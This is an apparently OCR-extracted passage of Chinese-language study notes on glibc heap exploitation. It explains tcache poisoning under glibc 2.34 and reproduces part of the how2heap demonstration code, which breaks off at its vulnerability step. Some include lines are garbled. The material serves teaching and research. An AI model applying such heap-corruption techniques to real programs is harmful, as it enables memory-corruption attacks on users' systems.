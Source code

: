 ```
 
p.interactive()

```

tcache_poisoning_glibc2.34
--------------------------

### 原理

修改 tcache bin 中 chunk 的 next 指针，使其被覆盖为任意地址。注意 glibc2.34 版本有地址保护。  
不过要注意地址对齐。

### POC

how2heap 源码

```
#include #include #include #include int main()
{
    // disable buffering
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
 
    printf("This file demonstrates a simple tcache poisoning attack by tricking malloc into\n"
           "returning a pointer to an arbitrary location (in this case, the stack).\n"
           "The attack is very similar to fastbin corruption attack.\n");
    printf("After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,\n"
           "We have to create and free one more chunk for padding before fd pointer hijacking.\n\n");
    printf("After the patch https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=a1a486d70ebcc47a686ff5846875eacad0940e41,\n"
           "An heap address leak is needed to perform tcache poisoning.\n"
           "The same patch also ensures the chunk returned by tcache is properly aligned.\n\n");
 
    size_t stack_var[0x10];
    size_t *target = NULL;
 
    // choose a properly aligned target address
    for(int i=0; i<0x10; i++) {
        if(((long)&stack_var[i] & 0xf) == 0) {
            target = &stack_var[i];
            break;
        }
    }
    assert(target != NULL);
 
    printf("The address we want malloc() to return is %p.\n", target);
 
    printf("Allocating 2 buffers.\n");
    intptr_t *a = malloc(128);
    printf("malloc(128): %p\n", a);
    intptr_t *b = malloc(128);
    printf("malloc(128): %p\n", b);
 
    printf("Freeing the buffers...\n");
    free(a);
    free(b);
 
    printf("Now the tcache list has [ %p -> %p ].\n", b, a);
    printf("We overwrite the first %lu bytes (fd/next pointer) of the data at %p\n"
           "to point to the location to control (%p).\n", sizeof(intptr_t), b, target);
    // VULNERABILITY
```